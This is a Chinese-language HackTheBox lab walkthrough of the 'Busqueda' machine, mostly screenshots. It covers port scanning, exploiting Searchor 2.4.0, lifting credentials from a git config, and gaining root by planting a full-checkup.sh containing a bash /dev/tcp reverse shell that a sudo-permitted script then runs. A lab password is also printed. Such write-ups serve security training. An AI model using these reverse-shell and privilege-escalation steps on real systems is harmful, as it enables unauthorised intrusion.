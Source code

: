 ```yaml
---
{"dg-publish":true,"permalink":"/hackthebox 靶场/htb 靶场 Busqueda/","tags":["靶场","打靶","hackthebox"]}
---
```



![image.png](https://s2.loli.net/2025/07/06/zruMbdet2ZaU8gS.png)

![image.png](https://s2.loli.net/2025/07/07/yCtNrueFaqf15lH.png)
[[思/Busqueda 思\|Busqueda 思]]
## 扫描端口
![image.png](https://s2.loli.net/2025/07/06/Mtv6G1fBUDFwuLo.png)

有一个 80 端口和 22 端口
## 80 端口服务
![image.png](https://s2.loli.net/2025/07/06/BlVvdpnjcL9QbsU.png)

![image.png](https://s2.loli.net/2025/07/06/8VCB1Z3PfHQSIs9.png)

这个步骤可能是个关键点

随便写一个 xss 进去看看
![image.png](https://s2.loli.net/2025/07/06/B5pXikmzL2OdRsE.png)


![image.png](https://s2.loli.net/2025/07/06/TqgI47jLxNkKWCE.png)

只有这样的显示

在底下发现有个 Searchor 2.4.0 ，可能是利用 cms
![image.png](https://s2.loli.net/2025/07/06/Cp4xthW6YBE5oFa.png)

![image.png](https://s2.loli.net/2025/07/06/14EUjV6FbcQeLWI.png)


![image.png](https://s2.loli.net/2025/07/07/fFnGhyKYHWNjs8w.png)

获得反弹 shell
![image.png](https://s2.loli.net/2025/07/07/FUDYjS5Ze9VA3qw.png)

![](https://s2.loli.net/2025/07/07/QFSj5cUbuev8Gri.png)
找到 user. txt
## 提权
用一手 linpeas 进行信息收集

发现蛮多隐藏文件的，其中 git 的文件引人注目
![image.png](https://s2.loli.net/2025/07/07/tHSqUbdaeoxcNk2.png)

![image.png](https://s2.loli.net/2025/07/07/AQsn9fMjT3rJdc4.png)

在查看进程中也时不时就找到/var/www/app这个目录，可能里面有东西

![image.png](https://s2.loli.net/2025/07/07/jaKfFXiwWHT1GQb.png)

刚好在/var/www/app中有个值得关注的东西，佐证了我们的想法

先一个一个看 gitconfig 告诉我们有个邮箱和名字
![image.png](https://s2.loli.net/2025/07/07/R8xCZAwTlaq4uB7.png)

在. git 的文件夹中
![image.png](https://s2.loli.net/2025/07/07/RriB1pwnLG4VyYm.png)

这里面的 index 有 root 权限

配置文件告诉我们有个 gitea 的子域名
![image.png](https://s2.loli.net/2025/07/07/WRQ9TmeDJG5XM2i.png)

配置文件中的这一串就是账密
```
cody:jh1usoih2bkjaspwe92
```

![image.png](https://s2.loli.net/2025/07/07/ujyUwQPnN1BvqoC.png)

登录成功，但我是看不出里面有啥好东西，至少找到了 svc 用户的密码

![image.png](https://s2.loli.net/2025/07/07/GjfcEB27e5lvTb6.png)

查看到 sudo -l 的东西

![image.png](https://s2.loli.net/2025/07/07/8lPKiJFYhs7xDcm.png)

docker ps 查看容器
![image.png](https://s2.loli.net/2025/07/07/BtLO97hquVDXT3S.png)

docker-inspect
```
sudo python3 /opt/scripts/system-checkup.py docker-inspect '{{json .Config}}' gitea |jq .
```

![image.png](https://s2.loli.net/2025/07/07/Vq5rkRoxHUbml7s.png)

找到个账户密码，试试能不能登录 administer

成功登录
![image.png](https://s2.loli.net/2025/07/07/NvVDEzo4AQTJy26.png)

检查一下 system-checkup. py 脚本

![image.png](https://s2.loli.net/2025/07/07/tiYxf3vjhPF4sOm.png)

在这里有个用 full-checkup. sh ，可以利用这个地方，钻个空子

### 修改脚本 反弹 shell
看了 wp，说是新建full-checkup. sh，在里面添加了反弹 shell，就能反弹到 root 权限的反弹 shell
```
svc@busqueda:/tmp$ cat full-checkup.sh
cat full-checkup.sh
#!/bin/bash
bash -i >& /dev/tcp/10.10.16.5/9999 0>&1

svc@busqueda:/tmp$ chmod +x full-checkup.sh
chmod +x full-checkup.sh

svc@busqueda:/tmp$ sudo python3 /opt/scripts/system-checkup.py full-checkup
sudo python3 /opt/scripts/system-checkup.py full-checkup

```

![image.png](https://s2.loli.net/2025/07/07/k3g4tbSFUOZeXKE.png)

获得 root反弹 shell

![image.png](https://s2.loli.net/2025/07/07/dqotP9BRlrcEIT8.png)
